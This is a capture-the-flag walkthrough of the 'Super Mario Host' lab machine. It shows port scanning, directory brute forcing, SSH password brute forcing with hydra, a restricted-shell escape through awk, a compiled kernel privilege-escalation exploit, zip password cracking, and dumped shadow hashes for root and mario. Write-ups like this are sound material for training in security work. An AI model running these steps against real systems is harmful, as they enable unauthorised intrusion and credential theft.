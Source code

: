 root@kali ~# nmap -sS -T4 -p- 10.0.0.23

PORT     STATE SERVICE
22/tcp   open  ssh                                                                                        
8180/tcp open  unknown 

Going to http://10.0.0.23:8180 there is nothing intersting or useful, let's try to directory brute force.

root@kali ~# gobuster dir -u http://10.0.0.23:8180/ -w /usr/share/wordlists/dirb/common.txt

We found nothing. Let's try a different worlist.

root@kali ~# gobuster dir -u http://10.0.0.23:8180/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

/vhosts               (Status: 200) [Size: 1364]

http://10.0.0.23:8180/vhosts:

ServerName mario.supermariohost.local
ServerAdmin webmaster@localhost
DocumentRoot /var/www/supermariohost
DirectoryIndex mario.php

After adding 10.0.0.23 mario.supermariohost.local to /etc/hosts, we can go to mario.supermariohost.local:8180. This time the site has some functionality but nothing intersting. I tried to brute force the directories once again but found nothing. I tired to look for hidden php,txt,html files.

root@kali ~/D/C/S/keys# gobuster dir -u http://mario.supermariohost.local:8180/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html

/mario.php            (Status: 200) [Size: 7080]
/command.php          (Status: 200) [Size: 231]
/luigi.php            (Status: 200) [Size: 386]

mario.php is the homepage. Going to command.php, it says it finds users but all it does is spuot out random output, so nothing intersting here.

luigi.php:

Hey!! It'sa Luiiiggiii!!
My short brother doesn't know that I'm wandering around his host and messing around, he's new with computers!
Since I'm here I want to tell you more about myself...my brother is a nice person but we are in love for the same person: Princess Peach! I hope she will find out about this.
I Love Peach
Forever yours,
Luigi

This means we know about 3 possible users: mario, luigi and peach. Let's try to brute force SSH with those users.

root@kali ~/D/C/SUPER_MARIO_HOST [255]# hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt ssh://10.0.0.23 -IV

luigi:luigi1

Logging in to the machine via ssh we are spawned with a restricted shell.
It seems like Mario has left Luigi a message.
message:

YOU BROTHER! YOU!! 
I had to see it coming!!
Not only you declare your love for Pricess Peach, my only love and reason of life (and lives, depending from the player), but you also mess with my server!
So here you go, in a limited shell! Now you can't do much, MUHAUHAUHAUHAA

Mario.

Using '?' we can see what commands we are allowed to run. 

luigi:~$ ?
awk  cat  cd  clear  echo  exit  help  history  ll  lpath  ls  lsudo  vim

'awk' is one of them.
Searching for awk privilege escalation, I found a post from GTFbins https://gtfobins.github.io/gtfobins/awk/

luigi:~$ awk 'BEGIN {system("/bin/sh")}'
$pwd
/home/luigi

Let's spawn a shell with python.
python3 -c 'import pty; pty.spawn("/bin/bash")'

luigi@supermariohost:~$ uname -a
Linux supermariohost 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux

I found a kernel expliot that allowed me to get root ---> https://www.exploit-db.com/exploits/37292

luigi@supermariohost:/tmp$ gcc ofs.c -o ./ofs
luigi@supermariohost:/tmp$ ./ofs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami
root

Going to /root we find a zip file that is holding the flag, but it requires a password. I downloaded it to my localmachine and by using zip2john I was able to find the password for the zip file.

root@kali ~/D/C/SUPER_MARIO_HOST [80]# zip2john flag.zip > zip.hashes
root@kali ~/D/C/SUPER_MARIO_HOST [1]# john zip.hashes -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepeach       (flag.zip/flag.txt)     
1g 0:00:00:00 DONE (2022-03-03 13:08) 20.00g/s 10158Kp/s 10158Kc/s 10158KC/s ininin..happyfun
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

password for zip file ---> ilovepeach

flag.txt:
Well done :D If you reached this it means you got root, congratulations.
Now, there are multiple ways to hack this machine. The goal is to get all the passwords of all the users in this machine. If you did it, then congratulations, I hope you had fun :D

Keep in touch on twitter through @mr_h4sh

Congratulations again!

mr_h4sh

Let's try to get all the passwords: mario root

root:$6$ZmdseK46$FTvRqEZXdr3DCX2Vd6CXWmWAOJYIjcAI6XQathO3/wgvHEoyeP6DwL3NHZy903HXQ/F2uXiTXrhETX19/txbA1:17248:0:99999:7:::

mario:$6$WG.vWiw8$OhoMhuAHSqPYTu1wCEWNc4xoUyX6U/TrLlK.xyhRKZB3SyCtxMDSoQ6vioNvpNOu78kQVTbwTcHPQMIDM2CSJ.:17248:0:99999:7:::

/.bak/users/luigi/message:

Hi Luigi,

Since you've been messing around with my host, at this point I want to return the favour.
This is a "war", you "naughty" boy!

Mario.

Found ssh keys.

Because we are the root user we can play with the permissions of the ssh keys and download them to our localhost.

